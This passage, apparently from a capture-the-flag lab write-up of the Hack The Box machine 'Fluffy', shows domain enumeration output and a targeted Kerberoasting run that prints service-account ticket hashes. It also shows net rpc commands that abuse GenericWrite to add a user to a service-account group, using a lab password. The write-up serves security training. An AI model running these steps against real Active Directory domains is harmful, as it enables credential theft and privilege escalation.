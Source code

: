       Lockout observation window: 10 minutes
      Lockout duration: 10 minutes
      Lockout threshold: None
    Domain logoff information:
      Force logoff time: not set[0m
    
     =======================================
    |    Printers via RPC for fluffy.htb    |
     =======================================
    [92m[+] No printers available[0m
    
    Completed after 85.06 seconds


Using our victim, we can try a kerberoast attack with this user. Had I useed BloodyAD or bloodhound-python, I might have found these commands natively in the output; but that's the benefit of future me writing for past me. Next time I'll take better notes.

I don't think I used these though, instead I will do another method to get remote access.

```sh
targetedKerberoast   main  python targetedKerberoast.py -v -d 'fluffy.htb' -u 'p.agila' -p prometheusx-303                                                                                                                        [*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ca_svc)
$krb5tgs$23$*ca_svc$FLUFFY.HTB$fluffy.htb/ca_svc*$6f0f3e73745a6e<snip>c095
[+] Printing hash for (ldap_svc)
$krb5tgs$23$*ldap_svc$FLUFFY.HTB$fluffy.htb/ldap_svc*$5ed5efd97d<snip>a599
[+] Printing hash for (winrm_svc)
$krb5tgs$23$*winrm_svc$FLUFFY.HTB$fluffy.htb/winrm_svc*$ad82acf6<snip>d0a8

p.agila has GenericWrite to Service Accounts, and I can just add that account to this group to do things.


```python
!net rpc group addmem "Service Accounts" "p.agila" -U "fluffy"/"p.agila"%"prometheusx-303" -S "fluffy.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it



```python
!net rpc group members "Service Accounts" -U "fluffy"/"p.agila"%"prometheusx-303" -S "fluffy.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    FLUFFY\ca_svc
    FLUFFY\ldap_svc
    FLUFFY\p.agila
    FLUFFY\winrm_svc


With our new service account access, we can generate auth certificates as our victim service to to create a ticket we can use for authentication later.
